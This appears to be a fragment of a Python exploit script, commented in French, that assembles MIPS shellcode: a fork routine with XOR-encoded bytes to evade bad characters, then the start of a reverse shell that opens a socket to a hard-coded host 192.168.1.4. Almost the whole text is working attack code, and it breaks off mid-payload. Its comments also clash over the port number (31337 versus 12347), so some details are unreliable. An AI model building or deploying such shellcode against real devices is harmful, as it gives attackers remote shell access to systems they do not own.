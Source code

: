 ```python
# SHELLCODE - FONCTION FORK()
# =============================================================================

print("[*] Ajout du shellcode fork()...")

# Première partie du fork() - configuration initiale
sc_fork1 = (
    "\x24\x11\xFF\xFF"  # li $s1, -1              ; $s1 = -1 pour la boucle
    "\x24\x04\x27\x0F"  # li $a0, 9999            ; Argument pour nanosleep
    "\x24\x02\x10\x46"  # li $v0, 4166            ; Syscall nanosleep
    "\x01\x01\x01\x0C"  # syscall 0x40404         ; Appel système
)

# Données encodées du fork (bad characters)
# Original: "\x1E\x20\xFF\xFC" → Encodé avec XOR 99999999
sc_fork_bad = "\x87\xb9\x66\x65"
print("[+] Données fork encodées: bad characters évités")

# Deuxième partie du fork() - appel système fork
sc_fork2 = (
    "\x24\x11\x10\x2D"  # li $s1, 4141            ; Nouvelle valeur pour $s1
    "\x24\x02\x0F\xA2"  # li $v0, 4002            ; Syscall fork
    "\x01\x01\x01\x0C"  # syscall 0x40404         ; Appel système fork
    "\x1C\x40\xFF\xF8"  # bgtz $v0, loc           ; Si parent, retour boucle
)

# =============================================================================
# SHELLCODE - REVERSE SHELL
# =============================================================================

print("[*] Ajout du shellcode reverse shell...")

# Première partie du reverse shell - configuration socket
sc_first = (
    "\x24\x0f\xff\xfa"  # li $t7, -6              ; Configuration socket
    "\x01\xe0\x78\x27"  # nor $t7, $t7, $zero     ; $t7 = 5 (AF_INET)
    "\x21\xe4\xff\xfd"  # addi $a0, $t7, -3       ; $a0 = 2 (AF_INET)
    "\x21\xe5\xff\xfd"  # addi $a1, $t7, -3       ; $a1 = 1 (SOCK_STREAM)
    "\x28\x06\xff\xff"  # slti $a2, $zero, -1     ; $a2 = 0 (protocol)
    "\x24\x02\x10\x57"  # li $v0, 4183            ; Syscall socket
    "\x01\x01\x01\x0c"  # syscall 0x40404         ; Créer socket
    "\xaf\xa2\xff\xff"  # sw $v0, -1($sp)         ; Sauver fd socket
    "\x8f\xa4\xff\xff"  # lw $a0, -1($sp)         ; Charger fd socket
    "\x34\x0f\xff\xfd"  # ori $t7, $zero, 0xfffd  ; Configuration
    "\x01\xe0\x78\x27"  # nor $t7, $t7, $zero     ; $t7 = 2
    "\xaf\xaf\xff\xe0"  # sw $t7, -32($sp)        ; sin_family = AF_INET
    "\x3c\x0e"          # lui $t6, port_high      ; Charger partie haute du port
)

# Numéro de port (31337 = 0x7A69)
sc_first += "\x30\x3B"  # Port 12347 en little-endian
print("[+] Port configuré: 12347")

sc_first += (
    "\x35\xce\x7a\x69"  # ori $t6, $t6, 0x7a69    ; Port complet
    "\xaf\xae\xff\xe4"  # sw $t6, -28($sp)        ; sin_port
    "\x3c\x0e\xc0\xa8"  # lui $t6, 0xc0a8         ; IP 192.168.x.x
    "\x35\xce\x01"      # ori $t6, $t6, 0x01xx    ; Compléter IP
)

# Dernier octet de l'IP (modifiable)
sc_first += "\x04"  # IP: 192.168.1.4
print("[+] IP configurée: 192.168.1.4")
```